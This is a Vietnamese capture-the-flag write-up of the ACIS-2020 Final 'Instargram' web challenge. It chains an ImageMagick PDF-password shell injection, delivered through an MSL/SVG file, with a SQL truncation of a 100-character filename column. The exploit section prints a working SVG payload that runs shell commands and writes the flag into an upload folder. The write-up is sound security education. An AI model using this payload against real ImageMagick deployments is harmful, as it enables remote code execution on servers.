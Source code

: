 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "[ACIS-2020-Final] Web02: Instargram"
subtitle: ""
summary: ""
authors: [DoubleVKay]
tags: []
categories: [writeups,web,ctf,php,imagemagick]
---
```


# [ACIS-2020-Final] Sinh viên với An Toàn Thông Tin ASEAN 2020 Final

# Instargram

## Description

- Source: [Instargram](src)
- ImageMagick version: `7.0.10-37`
- Hints:
  1.  `Magic!!!`
  2.  `ducnt / @bcd1234`

![img1](img/img1.png)

## Summary

Website cho phép đăng ký, đăng nhập, thay đổi avatar. Khi thay đổi avatar sẽ gọi đến lệnh `convert` từ system (**Imagemagick**) để chuyển đổi ảnh. Kết hợp lỗi [ImageMagick - Shell injection via PDF password](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) và **SQL Truncation Attack** khai thác thực thi mã từ xa (**RCE**).

## Analysis

### Upload

Những file upload lên server phải thỏa mãn những yêu cầu, đặc điểm sau:
1. Size <= `500000`
2. Thư mục lưu trữ của mỗi user là bí mật:
  ```php
  function gen_secret_path($username) {
      $secret_path = "images/avatars/".md5(SALT.$username)."/";
      return $secret_path;
  }
  $secret_path = gen_secret_path($username);
  ...
  $target_file = $secret_path . $avatar;
  ```
3. File type phải là: `JPG, JPEG, PNG, SVG && GIF`

### Convert

Khi upload avatar, server sẽ tạo 1 bản copy của file nhằm chuyển đổi sau đó. 
  ```php
    if( $count2 === 1 && $row['username'] === $username) 
    {
        $_prepare_for_convert = $secret_path.$row2['for_convert'];
        copy($target_file, $_prepare_for_convert);
    }
  ```

Tên của file convert này được thêm suffix: `-InStarGram-HackEmAll2020.png`
```php
function watermark($string) {
    return $string."-InStarGram-HackEmAll2020";
}
$_for_convert = trim($filename,".".$extension);
$_for_convert =  $_for_convert.".".$extension.watermark("").".png";
```
- Ví dụ: `shell.php.jpg` -> `shell.php.jpg-InStarGram-HackEmAll2020.png`

Khi đã upload lên server, server sẽ sử dụng **Imagemagick** để chuyển đổi ảnh
```php
  $_orignal_image = $row['for_convert'];
  $_orignal_image = $secret_path.$_orignal_image;
  $_orignal_image = superwaf($_orignal_image);
  $_convert_image = superwaf($_convert_image);
  $_beautify_image = "convert -level 0%,100%,2.0 ".$_orignal_image." ".$_convert_image;
  system($_beautify_image);
```
- *`superwaf()` giúp bảo vệ **Command Injection***
  ```php
  function superwaf($data) {
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data);
    $data = escapeshellcmd($data);
    return $data;
  }
  ```

## Exploit

### ImageMagick Bug

- ImageMagick change log:
![img2](img/img2.png)
- Tìm ...  
![img3](img/img3.png)
- Và [đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) là bài phân tích chi tiết lỗi, cũng như cách exploit. Nó được đăng vào **November 21, 2020**. Vậy là đề được lấy cảm hứng từ 1 bug mới được public cách ngày thi 1 tuần ...

**Tóm lược**, ImageMagick cho phép sử dụng mật khẩu khi chuyển đổi PDF thông qua option `-authenticate`. Option này được dùng trong việc gọi một command khác, và nó không được làm sạch an toàn. Đồng nghĩa, việc kiểm soát thành công `-authenticate` sẽ dẫn đến **RCE**. Tuy nhiên điều này không phải lúc nào cũng khả thi (như trong bài này). May mắn thay, ImageMagick còn hỗ trợ **ImageMagick Scripting Language (MSL)** thông qua 1 file input **svg**, có thể truyền thẳng option bên trong nội dung file. Chi tiết hơn có thể xem [tại đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

**Quay lại với đề bài**, như vậy, nếu upload 1 file **SVG**, khi server gọi `convert evil.svg whatever.jpg`, thì `$(command)` sẽ được thực thi.

```html
<image authenticate='ff" `echo $(command)`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Tuy nhiên, `for_convert` được thêm suffix `-InStarGram-HackEmAll2020.png` nên không thể upload file **svg** được?

### SQLi Truncation Attack

Độ dài trường **for_convert** là **100**, vì vậy có thể tận dụng để truncate phần suffix của tên file.

```
CREATE TABLE `converts` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` varchar(50) DEFAULT NULL,
  `for_convert` varchar(100) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
```

Vậy tên file cần có dạng:
```php
$filename = str_repeat("a",96).".svg"
```

Lúc này, nếu tiến hành chạy reverse shell hay outbound thì sẽ nhận ra server đã chặn. Vậy cần phải extract output command ra đâu đó, ra file? Nhưng chỉ có thư mục upload là có quyền ghi và như đã trình bày, đường dẫn thư mục upload của mỗi user là bí mật?

*Đây cũng là lý do không dùng cách upload file php (dùng truncation attack) để lên shell được*

### Có điều gì đó đã bị bỏ qua ...?

Quay lại source code được cung cấp, tại `images/avatars/`:
![img4](img/img4.png)

**978581028bb6f432c5a3a7694e8dad32**?. Một gợi ý của đề để lại, thư mục upload của user **ducnt** với mode `0777`. Như vậy, đã tìm được nơi ghi output của command.

## Final Payload

- Filename: **aa...aa.svg** (length == 100)
- Payload
```html
<image authenticate='ff" `echo $(cat /flag.txt)> ./images/avatars/978581028bb6f432c5a3a7694e8dad32/doublevkay.txt`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:./images/avatars/978581028bb6f432c5a3a7694e8dad32/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.svg" height="100" width="100"/>
  </svg>
</image>
```

Truy cập lại `/account.php` để kích hoạt `convert` và get flag.

![flag](img/flag.png)
![a](img/img5.jpg)

**Flag:**

```ASCIS{amayzing-goodjob-em:https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html-(ft)-mysql-truncation}```

## Không liên quan

Thừa nhận hay không thì mình vẫn là một mắt xích yếu, sr my team!.

Và, yoh, hơi sến xíu nhưng thực sự cảm ơn những người anh đã giúp đỡ em trong chặng đường học cyber sec này, rất ý nghĩa, mà chắc còn dài =)).

Btw, chúc mừng team **HCMUS.Twice** - một chức vô địch xứng đáng. Cuộc thi là một trãi nghiệm rất thú vị, thanks all và ... hẹn gặp lại!
